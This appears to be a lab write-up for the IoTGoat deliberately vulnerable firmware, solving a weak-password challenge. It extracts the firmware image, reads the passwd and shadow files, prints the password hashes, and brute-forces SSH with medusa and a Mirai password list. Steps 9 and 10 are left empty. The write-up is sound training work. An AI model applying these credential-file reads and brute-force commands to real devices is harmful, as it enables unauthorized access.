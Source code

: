 # Challenge 1:Weak, Guessable, or Hardcoded Passwords

Step 1: Downloaded the IoTGoat-raspberry-pi2.img from the github

Step 2: Extracted Firmware Filesystem by the command ```binwalk -e IoTGoat-raspberry-pi2.img```.

Step 3: Viewed the content of the file _IoTGoat-raspberry-pi2.img.extracted/squashfs-root/etc/passwd* by ```cat _IoTGoat-raspberry-pi2.img.extracted/squashfs-root/etc/passwd```.Founded root has access to /bin/ash, iotgoatuser also has access to /bin/ash.
       
Step 4: Checked the /etc/shadow file for password hashes by ```cat __IoTGoat-raspberry-pi2.img.extracted/squashfs-root/etc/shadow``` and founded the hashes root: $1$Jl7H1VOG$Wgw2F/C.nLNTC.4pwDa4H1
iotgoatuser: $1$79bz0K8z$Ii6Q/if83F1QodGmkb4Ah.

Step 5: Downloaded the git repo SecLists by danielmiessler to brute force the passwords.

Step 6: Separated the passwords from the default list by ```awk '{print $2}' SecLists/Passwords/Malware/mirai-botnet.txt > SecLists/Passwords/Malware/mirai-botnet_passwords.txt```

Step 7: Used the tool medusa to brute force every password stored in the file mirai-botnet_passwords.txt by ```medusa -u iotgoatuser -P ~/Desktop/SecLists-master/Passwords/Malware/mirai-botnet_passwords.txt -h 192.168.137.183 -M ssh```

Step 8: Founded the password by brute forcing and it is: ```7ujMko0vizxv``` 

Step 9: 

Step 10:

